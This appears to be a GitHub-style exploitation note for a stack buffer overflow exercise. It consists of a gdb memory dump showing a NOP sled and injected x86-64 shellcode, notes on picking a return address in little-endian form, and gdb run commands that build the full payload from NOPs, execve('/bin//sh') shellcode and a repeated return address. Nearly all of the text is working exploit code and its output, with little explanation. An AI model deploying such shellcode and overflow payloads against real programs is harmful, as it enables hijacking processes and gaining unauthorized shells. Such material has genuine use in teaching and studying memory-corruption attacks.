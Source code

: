 ```bash
0x7ffffffee93a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee94a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee95a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee96a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee97a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee98a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee99a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee9aa: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee9ba: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee9ca: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee9da: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee9ea: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee9fa: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffeea0a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffeea1a: 0x90909090      0x90909090      0x6a909090      0xc4fe5842
0x7ffffffeea2a: 0x48529948      0x69622fbf      0x732f2f6e      0x5e545768
0x7ffffffeea3a: 0x49d08949      0x050fd289      0x51515151      0x51515151
0x7ffffffeea4a: 0x51515151      0x51515151      0x51515151      0x51515151
0x7ffffffeea5a: 0x51515151      0x51515151      0x51515151      0x51515151
0x7ffffffeea6a: 0x51515151      0x51515151      0x51515151      0x51515151
0x7ffffffeea7a: 0x51515151      0x00000000      0x00000000      0xeb580000
0x7ffffffeea8a: 0x7ffffffe      0x00000000      0x00020004      0x11350000
0x7ffffffeea9a: 0x00000800      0x00000000      0x00000000      0xf6160000
0x7ffffffeeaaa: 0x99cd293e      0x1050c2ab      0x00000800      0xeb500000
0x7ffffffeeaba: 0x7ffffffe      0x00000000      0x00000000      0x00000000
0x7ffffffeeaca: 0x00000000      0xf6160000      0x7630df3e      0xf6163d54
0x7ffffffeeada: 0x77738a98      0x00003d54      0x00000000      0x00000000
0x7ffffffeeaea: 0x00000000      0x00000000      0x00000000      0xeb700000
0x7ffffffeeafa: 0x7ffffffe      0x91900000      0x7fffff7e      0xf4960000
0x7ffffffeeb0a: 0x7fffff7c      0x00000000      0x00000000      0x00000000
0x7ffffffeeb1a: 0x00000000      0x10500000      0x00000800      0xeb500000
0x7ffffffeeb2a: 0x7ffffffe      0x00000000      0x00000000      0x107a0000
0x7ffffffeeb3a: 0x00000800      0xeb480000      0x7ffffffe      0x001c0000
0x7ffffffeeb4a: 0x00000000      0x00020000      0x00000000      0xecff0000
0x7ffffffeeb5a: 0x7ffffffe      0xed420000      0x7ffffffe      0x00000000
0x7ffffffeeb6a: 0x00000000      0xef510000      0x7ffffffe      0xef5d0000
```

### Choose memory address

```bash
0x7ffffffee90a
0x7f ff ff fe e9 0a
7f ff ff fe e9 0a
\x7f\xff\xff\xfe\xe9\x0a
# Little Endian:
0a e9 fe ff ff 7f
\x0a\xe9\xfe\xff\xff\x7f


# 526 bytes - (29 bytes ASM code + 60 bytes return address) = 437 (434 with alignment): 0x00 00 00 51 51 51 51 51 in ?? ()
run $(python -c 'print "\x90" * 437 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05" + "\x51\x51\x51\x51\x51\x51" * 10')
# 526 bytes - (27 bytes ASM code + 60 bytes return address) = 439 (434 with alignment): 0x00 00 00 51 51 51 51 51 in ?? ()
run $(python -c 'print "\x90" * 439 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x51\x51\x51\x51\x51\x51" * 10')

# Final string:
run $(python -c 'print "\x90" * 437 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05" + "\x0a\xe9\xfe\xff\xff\x7f" * 10')
```